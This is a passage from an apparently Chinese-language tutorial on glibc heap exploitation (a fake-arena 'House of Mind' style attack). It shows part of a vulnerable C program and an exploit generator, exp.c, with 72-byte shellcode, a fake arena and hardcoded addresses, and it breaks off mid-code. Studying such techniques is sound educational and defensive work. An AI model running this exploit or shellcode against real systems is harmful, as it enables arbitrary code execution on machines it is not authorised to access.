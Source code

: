 ```

 [4]free(ptr2); /* Prereq 2: Freeing a chunk whose size and its arena pointer is controlled by the attacker. */
 [5]free(ptr3); /* Shell code execution. */
 return(0); /* Bye */
}
```
![](http://r.photo.store.qq.com/psb?/V13dixb24fK0LX/AUUS9Xw4qd1*yazfjxd8yCC5HhMd3pcpt8WiToSBhGo!/r/dDwBAAAAAAAA)
在line[3]处可以进行heap overflow，攻击者可以进行如下顺序的输入：
- Fake arena
- Junk
- Fake heap_info
- Shellcode 
即下列的文件产生的输出：
```
/* exp.c
Program to generate attacker data.
Command:
     #./exp > file
*/
#include <stdio.h>

#define BIN1 0xb7fd8430

char scode[] =
/* Shellcode to execute linux command "id". Size - 72 bytes. */
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";

char ret_str[4] = "\x00\x00\x00\x00";

void convert_endianess(int arg)
{
        int i=0;
        ret_str[3] = (arg & 0xFF000000) >> 24;
        ret_str[2] = (arg & 0x00FF0000) >> 16;
        ret_str[1] = (arg & 0x0000FF00) >> 8;
        ret_str[0] = (arg & 0x000000FF) >> 0;
}
int main() {
        int i=0,j=0;

        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd_nextsize */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk_nextsize */
        /* Fake Arena. */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* mutex */
        fwrite("\x01\x00\x00\x00", 4, 1, stdout); /* flag */
        for(i=0;i<10;i++)
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fastbinsY */
        fwrite("\xb0\x0e\x10\x08", 4, 1, stdout); /* top */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* last_remainder */
        for(i=0;i<127;i++) {
                convert_endianess(BIN1+(i*8));
                if(i == 119) {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* preserve prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* preserve size */
                } else if(i==0) {
```